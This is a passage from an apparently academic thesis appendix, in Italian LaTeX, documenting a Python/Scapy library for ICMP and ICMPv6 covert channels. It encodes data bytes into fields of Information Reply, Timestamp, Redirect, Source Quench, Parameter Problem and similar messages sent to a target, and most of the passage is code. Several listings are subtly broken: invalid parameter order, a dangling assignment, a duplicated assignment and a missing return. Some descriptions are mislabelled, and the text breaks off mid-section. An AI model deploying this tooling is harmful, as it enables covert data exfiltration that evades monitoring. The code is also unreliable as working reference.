\section{Appendice Librerie}

\section{Attack Singleton} 

\subsection{Metodo usato per inviare i dati}
Il seguente metodo viene utilizzato per inviare i dati (in input) a una delle entità (vittima, proxy,\dots). 
Dopodichè si inizializza la varibile che conterrà l'istanza della classe \textit{SendSingleton}; 
e si ricaverà l'attacco dal dizionario che si è passato in input. 
\vspace{1ex} \newline
Successivamente si confronterà l'attacco ricavato con tutti quelli possibili e si eseguirà il metodo associato 
[code:\ref{script:appendice:attacksingleton:sendData} line 7]. 
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={send_data }, emphstyle=\color{red} 
    ,emph={[2]data, attack_code},emphstyle={[2]\color{blue}} 
    ,emph={[3]ip_src, ip_dst, attack_func, data}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def send_data(attack_func, data:bytes=None, ip_dst):
    if not (is_dict(attack_func) and is_bytes(data) and is_IPaddr(ip_dst)): 
        raise Exception("Argomenti non validi")
    print(f"Using {attack_func} for {ip_dst}. Sending: {data}")
    singleton=SendSingleton() 
    attack_code=next(iter(attack_func.items()))[0]
    match attack_code:
        case "ipv4_1"|"ipv4_dest_unreach": 
            return singleton.ipv4_dest_unreach(data,ip_dst)
        case "ipv4_2"|"ipv4_source_quench": 
            return singleton.ipv4_source_quench(data,ip_dst)
        case "ipv4_3"|"ipv4_redirect":  
            return singleton.ipv4_redirect(data,ip_dst) 
        case "ipv4_4"|"ipv4_timing_channel_1bit":  
            return singleton.ipv4_timing_channel_1bit(data,ip_dst)
        case "ipv4_5"|"ipv4_timing_channel_2bit":  
            return singleton.ipv4_timing_channel_2bit(data,ip_dst)
        case "ipv4_6"|"ipv4_timing_channel_4bit":  
            return singleton.ipv4_timing_channel_4bit(data,ip_dst)
        case "ipv4_7"|"ipv4_time_exceeded":  
            return singleton.ipv4_time_exceeded(data,ip_dst)
        case "ipv4_8"|"ipv4_parameter_problem":  
            return singleton.ipv4_parameter_problem(data,ip_dst)   
        case "ipv4_10"|"ipv4_tstamp_reply"|"ipv4_9"|"ipv4_tstamp_request":  
            return singleton.ipv4_timestamp_reply(data,ip_dst)
        case "ipv4_12"|"ipv4_info_reply"|"ipv4_11"|"ipv4_info_request": 
            return singleton.ipv4_information_reply(data,ip_dst)
        
        case "ipv6_1"|"ipv6_destination_unreachable": 
            return singleton.ipv6_destination_unreachable(data,ip_dst)
        case "ipv6_2"|"ipv6_packet_to_big": 
            return singleton.ipv6_packet_to_big(data,ip_dst)
        case "ipv6_3"|"ipv6_time_exceeded": 
            return singleton.ipv6_time_exceeded(data,ip_dst) 
        case "ipv6_4"|"ipv6_parameter_problem": 
            return singleton.ipv6_parameter_problem(data,ip_dst)
        case "ipv6_5"|"ipv6_timing_channel_1bit": 
            return singleton.ipv6_timing_channel_1bit(data,ip_dst)
        case "ipv6_6"|"ipv6_timing_channel_2bit": 
            return singleton.ipv6_timing_channel_2bit(data,ip_dst)
        case "ipv6_7"|"ipv6_timing_channel_4bit": 
            return singleton.ipv6_timing_channel_4bit(data,ip_dst)
        case "ipv6_9"|"ipv6_info_reply"|"ipv6_8"|"ipv6_info_request": 
            return singleton.ipv6_information_reply(data,ip_dst)
    print("Caso non contemplato")
    return None
\end{lstlisting}
\captionof{lstlisting}{Metodo per inviare i dati} 
\label{script:appendice:attacksingleton:sendData} 

\subsection{Classe \textit{SendSingleton}}
Nella classe saranno presenti i metodi, ognuno per tipologia di attacco, usati per inviare i dati; 
sfruttando le varie tipologie di messaggi del protocollo ICMP. 
\vspace{1ex} \newline
Di seguito verranno indicate le funzioni associate ad ogni attacco elencato in [Code:\ref{script:appendice:attacksingleton:attackDict}]. 

\subsubsection{Information Request/Reply}
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi procede nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con una differnza pari alla capaità di trasmissione dell'attacco (\textbf{2 bytes}). 
Dopodichè shifta il primo bytes a sinistra di 8 posizioni per poi concatenarlo con il secondo byte. 
Terminato di calcolarlo procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene creato aggiungengo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene definito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Echo Reply}) e il valore del campo \textbf{id}. 
\end{itemize} 
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_information_reply}, emphstyle=\color{red} 
    ,emph={[2]index, icmp_id, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_information_reply(data:bytes=None, ip_dst): 
        if not (is_bytes(data) and com.is_IPAddress(ip_dst)): 
            raise Exception(f"Argomenti non corretti")
        if ip_dst.version!=4:
            print(f"IP version is not 4: {ip_dst.version}")
            return False
        
        TYPE_INFORMATION_REQUEST=15
        TYPE_INFORMATION_REPLY=16
        
        for index in range(0, len(data), 2): 
            if index==len(data)-1 and len(data)%2!=0:
                icmp_id=(data[index]<<8)
            else:
                icmp_id=(data[index]<<8)+data[index+1] 
            pkt= IP(dst=ip_dst)/ICMP(type=16,id=icmp_id) 
            ans = send(pkt, verbose=1)  
        pkt= IP(dst=ip_dst)/ICMP(type=16,id=0,seq=1) 
        ans = send(pkt, verbose=1) 
        if ans:  
            return True  
        return False 
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Information Request/Reply}} 
\label{script:appendice:attacksingleton:send:v4_information_reply} 

\subsubsection*{Versione che usa il protocollo IPv6} 
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè ricava l'interfaccia connessa alla destinazione; 
ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti. 
Infatti se l'indirizzo IPv6 fosse un indirizzo locale, il pacchetto non riuscirebbe a raggiungere la destinazione. 
\footnote{Questa interfaccia viene definita \textbf{Scoper ID}} 
Successivamente si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente. 
\vspace{1ex} \newline 
Poi si procede nel seguente modo. 
Si itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari a (\textbf{2 bytes}) 
(questa sarà la capacità di trasmissione dell'attacco). 
Dopodichè shifta il primo bytes a sinistra di 8 posizioni per poi concatenarlo con il secondo byte. 
Terminato si procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID} (ovvero l'interfaccia di uscita del pacchetto). 
    Si definirà anche l'\textbf{indirizzo IP del mittente}
    \item Il livello \textit{ICMPv6EchoReply}: la cui tipologia è \textit{Echo Reply}. Nel suo campo \textbf{id} verrà inserito il dato codificato. 
\end{itemize}
Dopodichè il messaggio viene spedito. 
\vspace{1ex} \newline
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMPv6}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Viene aggiunto anche un unlteriore livello (il livello \textit{Raw}) al quale viene passato il messaggio '\textit{Hello Neighbour}'. 
Ciò ha solo una funzione di debug per testare se venisse inviato o no. 
Infine quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv6_information_reply, ping_once}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, pkt},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_information_reply(data:bytes=None, addr_src, addr_dst): 
    if not (is_bytes(data) and is_IPaddr(addr_src) and is_IPaddr(addr_dst)):
        raise Exception(f"Argoemnti non corretti")
    if addr_dst.version!=6:
        print(f"IP version is not 6: {addr_dst.version}")
        return False
        
    TYPE_INFORMATION_REQUEST=128
    TYPE_INFORMATION_REPLY=129 
    try:
        interface,_= mymethods.iface_src_from_IP(addr_dst)
        if interface is None:  
            interface=mymethods.default_iface()
            com.ping_once(addr_dst, interface)
        interface,_= mymethods.iface_src_from_IP(addr_dst)
        if interface is None:
            raise Exception("Problema con l'interfaccia non risolto") 
    except Exception as e: 
        interface=mymethods.default_iface() 
        
    dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
    src_mac = get_if_hwaddr(interface)
        
    for index in range(0, len(data), 2): 
        if index==len(data)-1 and len(data)%2!=0:
            icmp_id=(data[index]<<8) 
        else:
            icmp_id=(data[index]<<8)+data[index+1] 
        pkt= (
            Ether(dst=dst_mac, src=src_mac)
            /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)
            /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY,id=icmp_id)
        ) 
        ans = sendp(pkt, verbose=1,iface=interface) 
    pkt= (
        Ether(dst=dst_mac, src=src_mac)
        /IPv6(dst=f"{addr_dst}%{interface}",src=addr_src) 
        /ICMPv6EchoReply(type=TYPE_INFORMATION_REPLY,id=0, seq=1)
        / Raw(load="Hello Neighbour".encode())
    ) 
    ans = sendp(pkt, verbose=1,iface=interface) 
    if ans: 
        return True  
    return False 
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Information Request/Reply v6}} 
\label{script:appendice:attacksingleton:send:v6_information_reply} 
%-----------------------------------

\subsubsection{Timestamp Request/Reply}
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi itera per tutti i valori presenti nella lista passata. 
\vspace{1ex} \newline
Lo fà tramite l'indice che va da 0 sino alla dimensione della lista; con uno step di \textbf{5 bytes}. 
Dopodichè definisce i valori da inserire nei cmapi in questo modo: 
\begin{itemize}
    \item Per calcolare il valore del campo \textbf{id} shifta il primo bytes a sinistra di 8 posizioni per poi aggiungere il secondo byte. 
    \item Per i campi \textbf{ts\_ori}, \textbf{ts\_rx} e \textbf{ts\_tx} invece è necessario un valore temporale che è stato calcolato in questo modo. 
    Si prende l'ora attuale e gli si sotituisce il valore rappresentate i millisecondi. Sarà qui che verranno codificati i dati [Code:\ref{script:appendice:attacksingleton:send:v4_timestamp_reply}  line 19]. 
    \footnote{ 
        \textit{ts\_ori}: indica l'ultima volta in cui il mittente ha toccato il pacchetto. \newline
        \textit{ts\_rx}: indica la prima volta che il destinatario ha toccato il pacchetto. \newline
        \textit{ts\_tx}: indica l'ultima volta che il destinatario ha mandato il messaggio di risposta. 
    }
\end{itemize} 
Nel pacchetto sarà presente un livello per il protocollo \textit{IP} e un'altro per \textit{ICMP}. 
Che saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene definito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Timestamp Reply}) e il valore dei campi interessati 
\end{itemize} 
Terminato di ciclare sulla lista contenente i dati; 
viene inviato un ultimo pacchetto indicante la fine dell'invio dei dati. 
Ciò viene fatto impostando il campo \textit{id} a 0 e il cmapo \textit{seg} a 1 nel protocollo \textit{ICMP}. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_timestamp_reply}, emphstyle=\color{red} 
    ,emph={[2]icmp_id, icmp_ts_ori, icmp_ts_rx, icmp_ts_tx, data_pkt, index, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst, current_time, midnight}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_timestamp_reply(data:bytes=None, ip_dst):
    if not (is_bytes(data) and is_IPAddress(ip_dst)): 
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
        
    TYPE_TIMESTAMP_REQUEST=13 
    TYPE_TIMESTAMP_REPLY=14 
    for index in range(0, len(data), 5): 
        icmp_id=icmp_id=(data[index]<<8)+data[index+1]  
            
        current_time=datetime.datetime.now(datetime.timezone.utc) 
        midnight=current_time.replace(
            hour=0, minute=0, second=0, microsecond=0
        ) 

        data_pkt=int.from_bytes(data[index+2:index+3]) *10**3
        current_time=current_time.replace(microsecond=data_pkt)
        icmp_ts_ori=int((current_time - midnight).total_seconds() * 1000)  

        data_pkt=int.from_bytes(data[index+3:index+4]) *10**3
        if current_time.second+1<60:
            current_time=current_time.replace(
                second=current_time.second+1
                ,microsecond=data_pkt
            )
        else:
            current_time=current_time.replace(
                minute=current_time.minute+1,second=(current_time.second+1)%60
                ,microsecond=data_pkt
            )
        icmp_ts_rx=int((current_time - midnight).total_seconds() * 1000) 
            
        data_pkt=int.from_bytes(data[index+4:index+5]) *10**3
        if current_time.second+1<60:
            current_time=current_time.replace(
                second=current_time.second+1
                ,microsecond=data_pkt
            )
        else:
            current_time=current_time.replace(
                minute=current_time.minute+1,second=(current_time.second+1)%60
                ,microsecond=data_pkt
            )
        icmp_ts_tx=int((current_time - midnight).total_seconds() * 1000)  

        pkt= IP(dst=ip_dst)/ICMP(
            type=TYPE_TIMESTAMP_REPLY
            ,id=icmp_id
            ,ts_ori=icmp_ts_ori
            ,ts_rx=icmp_ts_rx
            ,ts_tx=icmp_ts_tx
        ) 
        ans = send(pkt, verbose=1)  
    pkt= IP(dst=ip_dst)/ICMP(type=TYPE_TIMESTAMP_REPLY,id=0,seq=1) 
    ans = send(pkt, verbose=1) 
    if ans:  
        return True  
    return False 
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Timestamp Request/Reply}} 
\label{script:appendice:attacksingleton:send:v4_timestamp_reply} 
%-----------------------------------

\subsubsection{Redirect} 
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi procede nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari \textbf{4 bytes} (ovvero la capaità di trasmissione dell'attacco). 
Nel campo \textbf{len} del protocollo \textit{IPerror}, e 
nel campo \textbf{id} del protocollo \textit{ICMP}, inserirà due bytes di dati.   
Terminato di calcolare i valori per i campi; procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene creato aggiungengo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene definito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Redirect}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_redirect}, emphstyle=\color{red} 
    ,emph={[2]index, dummy_ip, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_redirect(data:bytes=None, ip_dst): 
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
        
    TYPE_REDIRECT=5    
    for index in range(0, len(data), 4): 
        integer=int.from_bytes(data[index:index+2])
        dummy_ip=
            IP(src="192.168.1.10", dst="8.8.8.8", len=integer) / \
            ICMP(id=int.from_bytes(data[index+2:index+4]))
        pkt= IP(dst=ip_dst)/ICMP(type=5)/Raw(load=dummy_ip) 
        ans = send(pkt, verbose=1) 
    dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8") / ICMP(id=0,seq=1)
    pkt= IP(dst=ip_dst)/ICMP(type=5)/Raw(load=dummy_ip) 
    ans = send(pkt, verbose=1) 
    if ans: 
        return True  
    return False 
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Redirect}} 
\label{script:appendice:attacksingleton:send:v4_redirect} 
%-----------------------------------

\subsubsection{Source Quench}
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi procede nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari \textbf{8 bytes} (ovvero la capaità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei cmapi in questo modo: 
\begin{itemize} 
    \item Nel campo \textbf{len} del protocollo \textit{ICMP} inserisce \textbf{4 bytes}. 
    \item Invece nel datagram, nel campo \textbf{len} del protocollo \textit{IPerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMP}, inserirà due bytes di dati.   
\end{itemize}  
Terminato di calcolare i valori per i campi; procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Source Quench}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_source_quench}, emphstyle=\color{red} 
    ,emph={[2]index, dummy_ip, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_source_quench(data:bytes=None, ip_dst):
    if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
        raise Exception(f"Argoemnti non corretti")
    if ip_dst.version!=4:
        print(f"IP version is not 4: {ip_dst.version}")
        return False
        
    TYPE_SOURCE_QUENCH=4 
    for index in range(0, len(data), 8):
        integer=int.from_bytes(data[index+4:index+6])
        dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8", len=integer) / \
            ICMP(id=int.from_bytes(data[index+6:index+8]))
        pkt= IP(dst=ip_dst)/\
            ICMP(type=4, unused=int.from_bytes(data[index:index+4]))/\
            Raw(load=dummy_ip) 
        ans = send(pkt, verbose=1) 
    dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8") / ICMP(id=0,seq=1)
    pkt= IP(dst=ip_dst)/ICMP(type=4)/Raw(load=dummy_ip) 
    ans = send(pkt, verbose=1) 
    if ans: 
        return True  
    return False 
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Source Quench}} 
\label{script:appendice:attacksingleton:send:v4_source_quench} 
%-----------------------------------

\subsubsection{Parameter Problem}
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi procede nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari \textbf{7 bytes} (ovvero la capaità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize} 
    \item Nel campo \textbf{ptr} del protocollo \textit{ICMP} inserisce \textbf{1 bytes} mentre nel campo \textbf{unused} inserisce \textbf{2 buytes}. 
     \item Invece nel datagram, nel campo \textbf{len} del protocollo \textit{IPerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMP}, inserirà due bytes di dati.   
\end{itemize}  
Terminato di calcolare i valori per i campi; procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Source Quench}) e il valore del campo \textbf{id}. 
    \item Un livello \textbf{Raw} contenente l'internet header +64 bits di dati del datagram a cui la Redirect si riferisce. 
\end{itemize}  
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMP}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={ipv4_parameter_problem}, emphstyle=\color{red} 
    ,emph={[2]index, dummy_ip, pkt},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, ip_dst}, emphstyle={[3]\color{olive}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv4_parameter_problem(data:bytes=None, ip_dst):
        if not com.is_bytes(data) or not com.is_IPAddress(ip_dst):
            raise Exception(f"Argomenti non corretti")
        if ip_dst.version!=4:
            print(f"IP version is not 4: {ip_dst.version}")
            return False
        print(f"START sending to {ip_dst}: {data}")
        TYPE_PARAMETER_PROBLEM=12 
        for index in range(0, len(data), 7): 
            integer=int.from_bytes(data[index+3:index+5])
            dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8", len=integer) / \
                ICMP(id=int.from_bytes(data[index+5:index+7]))
            integer=int.from_bytes(data[index+1:index+3])
            pkt= IP(dst=ip_dst)/\
                ICMP(type=12, ptr=int(data[index]) ,unused=integer)/\
                Raw(load=dummy_ip) 
            ans = send(pkt, verbose=1) #iface=interface
        dummy_ip=IP(src="192.168.1.10", dst="8.8.8.8") / ICMP(id=0,seq=1)
        pkt= IP(dst=ip_dst)/ICMP(type=12)/Raw(load=dummy_ip) 
        ans = send(pkt, verbose=1) 
        print("END data has being sent using ICMP Parameter Problem")  
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Parameter Problem}} 
\label{script:appendice:attacksingleton:send:v4_parameter_problem}  

\subsubsection*{Versione che usa il protocollo IPv6} 
Il metodo richiede in input una lista contenenti i dati espressi come bytes e l'indirizzo IP del mittente e del destinatario. 
Dopodichè ricava l'interfaccia connessa alla destinazione; 
ciò deve essere fatto sennò non si riuscirà ad instradare i pacchetti. 
Successivamente si ricava l'indirizzo MAC dell'interfaccia per la destinazione e l'indirizzo MAC dell'interfaccia per la sorgente. 
\vspace{1ex} \newline 
Poi procede nel seguente modo: 
itera per tutti gli indici che vanno da 0 sino alla dimensione della lista, 
con uno step pari \textbf{8 bytes} (ovvero la capacità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize} 
    \item Nel campo \textbf{ptr} del protocollo \textit{ICMPv6ParamProblem} inserisce \textbf{4 bytes}. 
     \item Invece nel datagram, nel campo \textbf{plen} del protocollo \textit{IPv6Eerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMPv6}, inserirà \textbf{due bytes} di dati.   
\end{itemize}  
Terminato di calcolare i valori da immetere nei campi; si procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito dai seguenti livelli: 
\begin{itemize}
    \item Il livello \textit{Ether}: in cui si specifica l'indirizzo \textbf{MAC di destinazione} e l'indirizzo \textbf{MAC sorgente}. 
    \item Il livello \textit{IPv6}: il cui \textbf{indirizzo IP di destinazione} è definito da l'indirzzo IP passato in input concatenato con lo \textbf{Scope ID} (ovvero l'interfaccia di uscita del pacchetto). 
    Si definirà anche l'\textbf{indirizzo IP del mittente} 
    \item Il livello \textit{ICMPv6ParamProblem}: la cui tipologia è \textit{Parameter Problem}. 
    Nel suo campo \textbf{ptr} verranno inseriti dei dati. 
    \item Un livello contenente il datagram composto dai livelli \textit{IPv6Error} e \textit{ICMPv6}. 

\end{itemize}
Dopodichè il messaggio viene spedito. 
\vspace{1ex} \newline 
Per indicare che si sono invitati tutti i dati; 
viene inviato un ultimo pacchetto in cui nel livello \textit{ICMPv6}, si imposta il campo \textit{id} a 0 e il cmapo \textit{seg} a 1. 
Quando inviato, se la vittima lo riceve, ritornerà un responso positivo se ricevuto, altrimenti negativo. 
\newline
\begin{lstlisting}[
    language=Python, basicstyle=\tiny, firstnumber=0, numbers=left, numberstyle=\tiny, xleftmargin=7mm
    %
    ,emph={}, emphstyle=\color{red} 
    ,emph={[2]interface, dst_mac, src_mac},emphstyle={[2]\color{blue}} 
    ,emph={[3]data, addr_src, addr_dst}, emphstyle={[3]\color{olive}} 
    ,emph={[4]index, dummy_pkt, pkt},emphstyle={[4]\color{blue}} 
    ,literate={.}{{\char46}}1 {:}{{\char58}}1 
] 
def ipv6_parameter_problem(data:bytes=None, addr_src, addr_dst): 
        if not (is_bytes(data) and is_IPAddress(addr_src) and is_IPAddress(addr_dst)):
            raise Exception(f"Argoemnti non corretti")
        if addr_dst.version!=6:
            print(f"IP version is not 6: {addr_dst.version}")
            return False
        
        TYPE_PARAMETER_PROBLEM=4  
        TYPE_INFORMATION_REQUEST=128
        TYPE_INFORMATION_REPLY=129 
        try:
            interface,_= mymethods.iface_src_from_IP(addr_dst) 
            if interface is None:  
                interface=mymethods.default_iface()
                com.ping_once(addr_dst,interface)
            interface,_= mymethods.iface_src_from_IP(addr_dst)
            if interface is None:
                raise Exception("Problema con l'interfaccia non risolto")  
        except Exception as e: 
            interface=mymethods.default_iface() 
        dst_mac=com.get_mac_by_ipv6(addr_dst, addr_src, interface)  
        src_mac = get_if_hwaddr(interface) 
        
        for index in range(0, len(data), 8): 
            integer=int.from_bytes(data[index+4:index+6])
            dummy_pkt=(
                IPv6(dst=f"{addr_dst}%{interface}",src=addr_src, plen=integer)
                /ICMPv6EchoRequest(
                    type=128,
                    id=int.from_bytes(data[index+6:index+8]), 
                    seq=0
                )
            )
            integer=int.from_bytes(data[index:index+4])
            pkt=(
                Ether(dst=dst_mac, src=src_mac) /
                IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
                ICMPv6ParamProblem(ptr=integer, type=4) /
                dummy_pkt
            ) 
            ans = sendp(pkt, verbose=1,iface=interface)  

        dummy_pkt=(
            IPerror6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
            ICMPv6EchoRequest(type=128, id=0, seq=1)
        )
        pkt=(
            Ether(dst=dst_mac, src=src_mac) /
            IPv6(dst=f"{addr_dst}%{interface}",src=addr_src)  /
            ICMPv6ParamProblem(type=4,ptr=0xFFFFFFFF) /
            dummy_pkt
        ) 
        ans = sendp(pkt, verbose=1,iface=interface) 
        if ans: 
            return True  
        return False  
\end{lstlisting}
\captionof{lstlisting}{Metodo che usa \textit{Parameter Problem v6}} 
\label{script:appendice:attacksingleton:send:v6_parameter_problem} 
%-----------------------------------

\subsubsection{Time Exceeded}
Il metodo richiede in input una lista contenneti i dati espressi come bytes e l'indirizzo IP del destinatario. 
Poi procede nel seguente modo. 
\vspace{1ex} \newline 
Itera per tutti gli indici che vanno da 0 sino alla dimensione della lista con uno step pari \textbf{7 bytes} (ovvero la capaità di trasmissione dell'attacco). 
Dopodichè definisce i valori da inserire nei campi in questo modo: 
\begin{itemize} 
    \item Nel campo \textbf{unused} del protocollo \textit{ICMP} inserisce \textbf{2 buytes}. 
    \item Invece nel datagram, nel campo \textbf{len} del protocollo \textit{IPerror}, e 
     nel campo \textbf{id} del protocollo \textit{ICMP}, inserirà due bytes di dati.   
\end{itemize}  
Terminato di calcolare i valori per i campi; procede con la costruzione del pacchetto. 
\vspace{1ex} \newline 
Il pacchetto viene definito aggiungendo un livello che usa il prtocollo \textit{IP} seguito da un livello \textit{ICMP} e saranno impostati in questo modo: 
\begin{itemize}
    \item Nel livello \textbf{IP} viene inserito come indirizzo di \textbf{destinazione} quello passato in input. 
    \item Nel livello \textbf{ICMP} viene definita la tipologia del messaggio (\textit{Time Exceeded}) e il valore del campo \textbf{id}. 
